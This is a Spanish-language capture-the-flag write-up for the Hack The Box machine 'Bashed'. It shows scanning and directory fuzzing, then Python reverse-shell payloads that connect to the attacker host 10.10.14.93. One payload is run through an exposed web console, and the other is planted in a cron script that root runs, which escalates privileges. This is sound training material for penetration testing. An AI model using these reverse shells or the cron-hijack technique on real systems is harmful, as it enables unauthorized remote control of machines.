 ```yaml
---
title: "Bashed"
date: Fri Aug 23 2024 10:13:12 GMT (Central European Summer Time)
categories: [WriteUp, HTB, Linux]
tags: [fuzzing, gobuster, pspy]
image: /assets/img/cabeceras/2024-08-23-bashed---writeup.png
---
```


---

![image](/assets/img/2024-08-23-bashed---writeup/pasted-image-20240127204515.png)

---

NMAP

```bash
# Nmap 7.94SVN scan initiated Sat Jan 27 20:55:30 2024 as: nmap -sCV -p 80 --stylesheet=https://raw.githubusercontent.com/honze-net/nmap-bootstrap-xsl/stable/nmap-bootstrap.xs
l -oN targeted -oX targetedXML 10.129.79.90
Nmap scan report for 10.129.79.90
Host is up (0.045s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Arrexel's Development Site

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Jan 27 20:55:38 2024 -- 1 IP address (1 host up) scanned in 8.04 seconds
```

NMAP HTTP-ENUM

```bash
nmap -sCV -p80 --script http-enum 10.129.79.90
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-01-27 20:57 CET
Nmap scan report for 10.129.79.90
Host is up (0.044s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-enum: 
|   /css/: Potentially interesting directory w/ listing on 'apache/2.4.18 (ubuntu)'
|   /dev/: Potentially interesting directory w/ listing on 'apache/2.4.18 (ubuntu)'
|   /images/: Potentially interesting directory w/ listing on 'apache/2.4.18 (ubuntu)'
|   /js/: Potentially interesting directory w/ listing on 'apache/2.4.18 (ubuntu)'
|   /php/: Potentially interesting directory w/ listing on 'apache/2.4.18 (ubuntu)'
|_  /uploads/: Potentially interesting folder

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.96 seconds
```

HTTP

![image](/assets/img/2024-08-23-bashed---writeup/pasted-image-20240127205956.png)

Vamos a realizar fuzzing de directorios y ficheros.

```bash
$ gobuster dir -u http://10.129.79.90 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50 --follow-redirect --add-slash
...
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/icons/               (Status: 403) [Size: 293]
/uploads/             (Status: 200) [Size: 14]
/php/                 (Status: 200) [Size: 940]
/css/                 (Status: 200) [Size: 1759]
/images/              (Status: 200) [Size: 1565]
/dev/                 (Status: 200) [Size: 1149]
/js/                  (Status: 200) [Size: 3166]
/fonts/               (Status: 200) [Size: 2096]
/server-status/       (Status: 403) [Size: 301]
```

Dentro de /dev encontramos lo siguiente:

![image](/assets/img/2024-08-23-bashed---writeup/pasted-image-20240127211027.png)

Si pulsamos en cualquiera de los dos abriremos una consola de ejecución local de comandos.

![image](/assets/img/2024-08-23-bashed---writeup/pasted-image-20240127211226.png)

Vamos a intentar mandarnos una reverse shell.

Nos ponemos a la escucha por el puerto 4444 con _NetCat_

```bash
$ nc -nlvp 4444
```

Ejecutamos lo siguiente:

```bash
www-data@bashed:/var/www/html/dev# python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.93",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
```

![image](/assets/img/2024-08-23-bashed---writeup/pasted-image-20240127212741.png)

Hacemos un _sudo -l_ y vemos algo interesante...

![image](/assets/img/2024-08-23-bashed---writeup/pasted-image-20240127220412.png)

Podemos ejecutar comandos como el usuario _scriptmanager_ sin proporcionar contraseña.

Nos subimos _linpeas_ y _pspy_ y seguimos enumerando...

![image](/assets/img/2024-08-23-bashed---writeup/pasted-image-20240127220643.png)

Con _pspy_ descubrimos que root ejecuta un script en python que ejecuta todos los scripts con extensión .py dentro de la carpeta /scripts. Pero no podemos ver ni entrar en esa carpeta, vamos a ver a quién pertenece...

![image](/assets/img/2024-08-23-bashed---writeup/pasted-image-20240127220925.png)

Sospechosamente pertenece al usuario _scriptmanager_...

Pero recordamos que tenemos el permiso de ejecutar tareas como ese usuario así que vamos a intentar espawnearnos una shell...

```bash
$ sudo -u scriptmanager bash -i
```

![image](/assets/img/2024-08-23-bashed---writeup/pasted-image-20240127221109.png)

Y funciona! somo el usuario _scriptmanager_!

Ahora podemos modificar y entrar en la carpeta /script. Como existe una tarea que ejecuta scripts cada dos minutos como usuario _root_, lo que tendremos que hacer es crear un archivo Python que nos mande una shell ...

![image](/assets/img/2024-08-23-bashed---writeup/pasted-image-20240127221415.png)

Creo que bastará con modificar el archivo .py existente.

Lo abrimos y lo dejamos así:

```Python
import socket,subprocess,os 
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.10.14.93",8888))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
import pty
pty.spawn("/bin/bash")

f = open("test.txt", "w")
f.write("testing 123!")
f.close
```

Grabamos y nos ponemos en escucha por el puerto que hayamos indicado:

```bash
$ mc -nlvp 8888
```

![image](/assets/img/2024-08-23-bashed---writeup/pasted-image-20240127222242.png)

Reto conseguido!

